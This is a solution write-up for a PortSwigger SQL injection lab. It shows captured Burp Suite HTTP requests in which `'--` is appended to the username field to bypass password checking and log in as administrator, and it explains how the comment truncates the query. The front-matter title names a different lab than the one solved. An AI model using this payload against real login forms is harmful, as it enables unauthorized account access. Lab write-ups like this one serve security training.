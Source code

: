 ```yaml
---
title: >
  Solution to Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
---
```


The following is a solution to the lab titled ["Lab: SQL injection vulnerability allowing login bypass"](https://portswigger.net/web-security/sql-injection/lab-login-bypass).

In Burp Suite, in the Proxy tab, click **Intercept is off**. This turns Intercept on, which will capture any incoming HTTP requests.

In the user interface (UI) of the lab, attempt to log in using the username `administrator` and any password (in this case, `orange`). 

Burp Suite Proxy will capture the login attempt and show an editable HTTP request like the one below:

~~~
POST /login HTTP/2
Host: 0ad800d703f1319f80653f68009c00e5.web-security-academy.net
Cookie: session=qgW9Lfp4Nnol2ItJDXq9NnxZhlUAeg4T
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: https://0ad800d703f1319f80653f68009c00e5.web-security-academy.net
Referer: https://0ad800d703f1319f80653f68009c00e5.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=11a7DpsSQo8lKiyViRXJ1oMuidLD7zqI&username=administrator&password=orange
~~~

In the last line of the HTTP request, modify the text after `username`, adding `'--`. Note the following modified request.

~~~
POST /login HTTP/2
Host: 0ad800d703f1319f80653f68009c00e5.web-security-academy.net
Cookie: session=qgW9Lfp4Nnol2ItJDXq9NnxZhlUAeg4T
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
Origin: https://0ad800d703f1319f80653f68009c00e5.web-security-academy.net
Referer: https://0ad800d703f1319f80653f68009c00e5.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf=11a7DpsSQo8lKiyViRXJ1oMuidLD7zqI&username=administrator'--&password=orange
~~~

Click **Forward** and then click **Intercept is on** (to turn off Intercept).

Navigate back to the UI. The UI should be logged in to the `administrator` account, and the lab should be marked as solved.

---

SQL Note

The unmodified request sends a SQL query with the username `administrator` and the password `orange` to the back end for authentication. This login attempt fails, since `orange` is not the correct password.

Adding `'--` after the username in the login request modifies the SQL query by instructing the server to regard everything after `'--` as a comment, thus telling the server to only check the username to give the user access to the account.
